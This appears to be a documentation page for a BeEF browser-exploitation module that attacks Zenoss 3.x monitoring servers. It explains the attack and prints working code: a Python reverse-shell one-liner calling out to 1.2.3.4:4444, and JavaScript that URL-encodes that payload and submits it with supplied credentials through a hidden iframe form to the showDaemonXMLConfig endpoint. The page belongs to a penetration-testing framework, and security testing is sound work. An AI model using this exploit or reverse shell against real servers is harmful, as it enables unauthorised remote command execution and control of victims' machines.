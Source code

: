 ## Summary

* **Objective**: get a reverse shell on a Zenoss 3.x server. Valid credentials are required.
* **Authors**: bcoles
* **Browsers**: All

* [Code](https://github.com/beefproject/beef/tree/master/modules/exploits/zenoss_3x_command_execution)

## Internal Working

With valid credentials, send a POST request through an iframe to execute a reverse shell.

The payload is a python reverse shell executed in the shell

```bash
python -c \"import socket,subprocess,os;host=\\\"1.2.3.4\\\";port=4444;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((host,port));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\\\"/bin/sh\\\",\\\"-i\\\"]);\"
```

```js
  var rhost = '<%= @rhost %>';
  var rport = '<%= @rport %>';
  var lhost = '<%= @lhost %>';
  var lport = '<%= @lport %>';
  var user  = '<%= @user  %>';
  var pass  = '<%= @pass  %>';
  var target  = 'http://'+rhost+':'+rport+'/zport/About/showDaemonXMLConfig'

  // reverse python payload
  var payload = unescape('%70%79%74%68%6f%6e%20%2d%63%20%22%69%6d%70%6f%72%74%20%73%6f%63%6b%65%74%2c%73%75%62%70%72%6f%63%65%73%73%2c%6f%73%3b%68%6f%73%74%3d%5c%22'+lhost+'%5c%22%3b%70%6f%72%74%3d'+lport+'%3b%73%3d%73%6f%63%6b%65%74%2e%73%6f%63%6b%65%74%28%73%6f%63%6b%65%74%2e%41%46%5f%49%4e%45%54%2c%73%6f%63%6b%65%74%2e%53%4f%43%4b%5f%53%54%52%45%41%4d%29%3b%73%2e%63%6f%6e%6e%65%63%74%28%28%68%6f%73%74%2c%70%6f%72%74%29%29%3b%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%30%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%31%29%3b%20%6f%73%2e%64%75%70%32%28%73%2e%66%69%6c%65%6e%6f%28%29%2c%32%29%3b%70%3d%73%75%62%70%72%6f%63%65%73%73%2e%63%61%6c%6c%28%5b%5c%22%2f%62%69%6e%2f%73%68%5c%22%2c%5c%22%2d%69%5c%22%5d%29%3b%22')

  // send request
  var zenoss_iframe_<%= @command_id %> = beef.dom.createIframeXsrfForm(target, "POST", "application/x-www-form-urlencoded", [
    {'type':'hidden', 'name':'__ac_name',     'value':user},
    {'type':'hidden', 'name':'__ac_password', 'value':pass},
    {'type':'hidden', 'name':'daemon',        'value':payload}
  ]);
```

## Feedback
